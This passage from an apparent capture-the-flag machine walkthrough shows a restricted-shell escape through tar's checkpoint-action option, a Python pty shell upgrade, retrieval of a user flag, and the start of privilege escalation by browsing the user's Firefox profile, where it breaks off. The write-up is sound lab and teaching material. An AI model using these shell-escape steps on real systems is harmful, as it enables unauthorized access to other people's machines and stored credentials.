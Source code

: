    ```console

      $ echo /home/ayush/.app/*

        /home/ayush/.app/dir 
        /home/ayush/.app/ping 
        /home/ayush/.app/tar

      ```
      __NOTE(S)__:
      - `ayush` is able to use `tar`
>
   3. Leverage `tar`:
      ```console
      $ tar -cf /dev/null /home/ayush/mail --checkpoint=1 --checkpoint-action=exec=/bin/sh

      $ export PATH=/bin:/usr/bin:$PATH
      ```
6. Spawn a __tty shell__:
   ```console
   $ python -c 'import pty; pty.spawn("/bin/bash")'
   > Ctrl + z
   $ stty raw -echo
   $ fg
   $ export SHELL=bash
   $ export TERM=xterm-256color
   ```
7. Find `user.txt`:
   ```console
   $ cat /home/ayush/user.txt
    
     eef39126d9c3b4b8a30286970dc713e1

   ```

---

## PART 5 : PRIVILEGE ESCALATION (ayush -> root)

1. While inside `ayush` shell:
   ```console
   $ ls -lah ~

     total 40K
     drwx------ 6 ayush ayush 4.0K May 26 09:24 .
     drwxr-xr-x 4 root  root  4.0K Oct 28  2018 ..
     drwxr-xr-x 2 root  root  4.0K Oct 28  2018 .app
     -rw------- 1 root  root     0 Nov 24 23:57 .bash_history
     -rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
     -rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
     drwx------ 3 ayush ayush 4.0K May 26 09:24 .gnupg
     drwx------ 3 ayush ayush 4.0K May 26 09:57 mail
     drwx------ 4 ayush ayush 4.0K Sep 29  2018 .mozilla
     -rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
    -rw------- 1 ayush ayush   33 Oct 28  2018 user.txt

   $ cd .mozilla/firefoz

   $ ls -lah

     total 20K
     drwx------  4 ayush ayush 4.0K Sep 29  2018  .
     drwx------  4 ayush ayush 4.0K Sep 29  2018  ..
     drwx------ 10 ayush ayush 4.0K Oct 27  2018  bzo7sjt1.default
     drwx------  4 ayush ayush 4.0K Oct 15  2018 'Crash Reports'
   ```